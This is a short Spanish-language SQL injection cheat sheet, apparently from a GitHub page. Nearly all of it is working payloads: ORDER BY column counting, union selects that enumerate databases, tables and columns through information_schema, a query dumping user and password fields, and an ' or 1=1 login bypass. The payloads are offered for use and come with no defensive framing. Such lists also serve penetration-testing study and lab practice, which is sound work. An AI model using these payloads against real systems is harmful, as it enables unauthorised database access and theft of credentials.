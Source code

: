 # SQL Injection

Ver numero de columnas

```
' ORDER BY 1 -- -
```

Introducir información una vez sabemos el numero de columnas que hay:

```
' union select 1,2-- -
' union select schema_name from information_schema.schemata limit 0,1 -- - 
  // listar todas las bases de datos existentes {con limit van mostrando las bases de datos 0,1 1º 1,1 2º y asi sucesivamente}
' union select group_concat(schema_name) from information_schema.schemata -- - 
  // listar todas las bases de datos en una linea
' union select group_concat(table_name) from information_schema.tables where table_schema='table'-- - 
// ver tablas de la base de datos
' union select group_concat(column_name) from information_schema.columns where table_schema='table' and table_name='table' limit 0,1-- -
// ver columnas de la tabla
union select group_concat(user,password) from users-- -
//Ver informacion de las columnas
```

Validar en un formulario

```
' or 1=1-- -
```
